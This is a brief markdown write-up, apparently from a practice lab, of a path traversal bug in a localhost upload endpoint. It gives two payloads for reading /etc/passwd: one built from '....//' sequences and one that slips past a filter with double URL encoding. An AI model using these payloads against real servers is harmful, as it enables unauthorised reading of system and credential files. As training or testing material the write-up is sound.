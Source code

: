 ## Path Traversal

Bug in `http://localhost:3000/upload?image=`

![img.png](img.png)

### Easy

`http://localhost:3000/upload?image=....//....//....//....//etc/passwd`

![img_1.png](img_1.png)

### Medium

Use double URL Encode

`..%252F..%252F..%252F..%252Fetc%252Fpasswd`

